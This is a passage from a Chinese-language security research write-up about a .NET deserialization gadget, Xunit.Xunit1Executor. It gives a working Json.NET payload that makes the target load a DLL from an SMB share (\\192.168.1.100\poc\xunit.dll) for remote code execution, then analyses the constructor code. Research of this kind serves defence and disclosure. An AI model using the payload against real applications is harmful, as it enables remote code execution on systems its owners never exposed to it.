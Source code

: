 代码段 40 Grpc.Core - Mac library loading

#### 2.1 Xunit Runner Utility – Xunit1Executor远程DLL加载

目标类：`Xunit.Xunit1Executor`

适用的序列化器：`Json.Net`、`XamlReader`、`MessagePack` 和其他潜在的序列化器。

适用的.NET 版本：.NET Framework

最近测试的版本：2.5.1

效果：通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行。可以传递包含 `Xunit.Sdk.Executor` 类的 .NET Framework DLL，该类实现了一个接受单个字符串的构造函数 —— `Executor(string)`。此构造函数将在反序列化过程中被调用。

漏洞利用代码（Json.NET）：

```plain
{ 
    "$type":"Xunit.Xunit1Executor, xunit.runner.utility.net452, Version=2.4.2.0,  
Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
    "useAppDomain":true, 
     "testAssemblyFileName":"\\\\192.168.1.100\\poc\\xunit.dll" 
}
```

代码段 41 Xunit1Executor gadget

描述： `Xunit.Xunit1Executor` 类定义了一个单一的公共构造函数，需要多个参数。

```plain
public Xunit1Executor(bool useAppDomain, string testAssemblyFileName, string 
configFileName = null, bool shadowCopy = true, string shadowCopyFolder = null) 
{ 
    this.appDomain = AppDomainManagerFactory.Create(useAppDomain, 
testAssemblyFileName, configFileName, shadowCopy, shadowCopyFolder); // [1] 
    this.xunitAssemblyPath =  
Xunit1Executor.GetXunitAssemblyPath(testAssemblyFileName); // [2] 
    this.xunitAssemblyName =  
AssemblyName.GetAssemblyName(this.xunitAssemblyPath); 
    this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[] 
    { 
        testAssemblyFileName 
    }); // [3] 
    this.TestFrameworkDisplayName = string.Format(CultureInfo.InvariantCulture, 
"xUnit.net {0}", new object[] 
    { 
        AssemblyName.GetAssemblyName(this.xunitAssemblyPath).Version 
    }); 
}
```

代码段 42 Xunit1Executor constructor

在\[1\]处，调用了 `AppDomainManagerFactory.Create`，并提供了受攻击的输入。如果 `useAppDomain` 设置为 true，则将返回 `Xunit.AppDomainManager_AppDomain` 的对象。该对象有一个名为 AppDomain 的成员，用于存储 `.NET AppDomain`。

这个 `.NET AppDomain` 对象是通过以下方法创建的（为了可读性省略了几个中间调用）：
